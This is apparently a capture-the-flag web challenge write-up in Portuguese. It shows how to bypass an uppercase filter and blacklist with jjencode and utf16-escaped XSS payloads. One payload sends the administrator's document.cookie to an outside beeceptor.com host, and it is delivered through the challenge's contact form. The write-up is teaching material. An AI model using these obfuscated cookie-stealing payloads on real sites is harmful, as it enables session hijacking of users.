 # Warz0ne

**Categoria: Web**

# Descrição:
![Chall](warz0ne_chall.png)

# Solução
Acessando o desafio obtemos uma página com um input disponível, onde ao preenchido e clicar em submit o valor inserido é transcrito para página.
![TestandoValores](warz0ne1_w.png)

Analisando o código-fonte da página, encontramos um javascript:
![Javascript](warz0ne2.png)

De forma grosseira, esse javascript recebe o valor do input e o transforma em uppercase, por fim transcreve esse último para a página, como visto acima.

Sabendo disso, levantamos uma possível blacklist (tudo que é digitado é desconsiderado, ou seja, não é executado):
![BlackList](warz0ne3.png)

Da blacklist, procurei alguns bypass, já que alguns comandos do javascript não funcionam quando estão em UPPERCASE, no Google e encontrei alguns encodes: utf16 (https://xssor.io/) e jjencode (http://utf-8.jp/public/jjencode.html).

Usando tais encodes, consegui construir um payload para executar um alert(1):

```<img src=x onerror=alert(1)>``` =

```<\u0069\u006d\u0067 \u0073\u0072\u0063=x \u006f\u006e\u0065\u0072\u0072\u006f\u0072=\u0024\u003d\u007e\u005b\u005d\u003b\u0024\u003d\u007b\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u0024\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u005f\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u0024\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u0024\u003a\u0028\u0024\u005b\u0024\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u005f\u003a\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u005f\u005f\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u007d\u003b\u0024\u002e\u0024\u005f\u003d\u0028\u0024\u002e\u0024\u005f\u003d\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u0024\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u0024\u003d\u0028\u0024\u002e\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0028\u0021\u0024\u0029\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u005f\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u0024\u005f\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u005f\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u0029\u002b\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u003b\u0024\u002e\u0024\u0024\u003d\u0024\u002e\u0024\u002b\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0024\u002e\u0024\u002b\u0024\u002e\u0024\u0024\u003b\u0024\u002e\u0024\u003d\u0028\u0024\u002e\u005f\u005f\u005f\u0029\u005b\u0024\u002e\u0024\u005f\u005d\u005b\u0024\u002e\u0024\u005f\u005d\u003b\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0024\u002b\u0022\u005c\u0022\u0022\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u0028\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0022\u0029\u0022\u002b\u0022\u005c\u0022\u0022\u0029\u0028\u0029\u0029\u0028\u0029\u003b>```

Obs: o alert(1) foi encodado primeiramente com jjencode e depois com utf16.
![AlertFuncional](warz0ne6.png)

A partir da execução do alert(1), criei um payload para "roubar" o cookie do administrador:

```<img src=x onerror=location='https://mlkzika.free.beeceptor.com/?cookie='+document.cookie>``` =

```<\u0069\u006d\u0067 \u0073\u0072\u0063=x \u006f\u006e\u0065\u0072\u0072\u006f\u0072=\u0024\u003d\u007e\u005b\u005d\u003b\u0024\u003d\u007b\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u0024\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u005f\u003a\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u0024\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u0024\u003a\u0028\u0024\u005b\u0024\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u005f\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u005f\u003a\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u005f\u005f\u003a\u0028\u007b\u007d\u002b\u0022\u0022\u0029\u005b\u0024\u005d\u002c\u0024\u0024\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u0024\u0024\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u005f\u003a\u002b\u002b\u0024\u002c\u0024\u005f\u005f\u0024\u003a\u002b\u002b\u0024\u007d\u003b\u0024\u002e\u0024\u005f\u003d\u0028\u0024\u002e\u0024\u005f\u003d\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u0024\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u0024\u003d\u0028\u0024\u002e\u0024\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0028\u0021\u0024\u0029\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0028\u0024\u002e\u005f\u005f\u003d\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u0024\u005f\u005d\u0029\u002b\u0028\u0024\u002e\u0024\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u005f\u0024\u005d\u0029\u002b\u0028\u0024\u002e\u005f\u003d\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u0029\u002b\u0024\u002e\u0024\u005f\u005b\u0024\u002e\u0024\u005f\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u003b\u0024\u002e\u0024\u0024\u003d\u0024\u002e\u0024\u002b\u0028\u0021\u0022\u0022\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u0024\u005d\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0024\u002e\u0024\u002b\u0024\u002e\u0024\u0024\u003b\u0024\u002e\u0024\u003d\u0028\u0024\u002e\u005f\u005f\u005f\u0029\u005b\u0024\u002e\u0024\u005f\u005d\u005b\u0024\u002e\u0024\u005f\u005d\u003b\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0028\u0024\u002e\u0024\u0024\u002b\u0022\u005c\u0022\u0022\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0022\u003d\u0027\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u003a\u002f\u002f\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0028\u0021\u005b\u005d\u002b\u0022\u0022\u0029\u005b\u0024\u002e\u005f\u0024\u005f\u005d\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u005f\u0024\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u0024\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0022\u002f\u003f\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u003d\u0027\u002b\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u005f\u002b\u0024\u002e\u005f\u005f\u002b\u0022\u002e\u0022\u002b\u0024\u002e\u0024\u0024\u005f\u005f\u002b\u0024\u002e\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u0024\u0024\u002b\u0022\u005c\u005c\u0022\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u005f\u0024\u002b\u0024\u002e\u005f\u005f\u0024\u002b\u0024\u002e\u0024\u0024\u0024\u005f\u002b\u0022\u005c\u0022\u0022\u0029\u0028\u0029\u0029\u0028\u0029\u003b>```

Obs: location='https://mlkzika.free.beeceptor.com/?cookie='+document.cookie foi encodado com jjencode e depois com utf16.

E, por último, enviei para o administrador pela url: http://159.65.249.122:8585/contact
![Contact](warz0ne14.png)

É apenas preciso quebrar o captcha (que pode ser usado um script que encontra-se nesse mesmo github):
![QuebrandoCaptcha](warz0ne13.png)

E para chegar na flag, devemos enviar o captcha quebrado e passar a url:
http://159.65.249.122:8585/?msg=PAYLOAD

E pronto!
![Flag](warz0ne16.png)

# Flag:
```HACKAFLAG{Insira_Um4_fl4g_4qu1}```
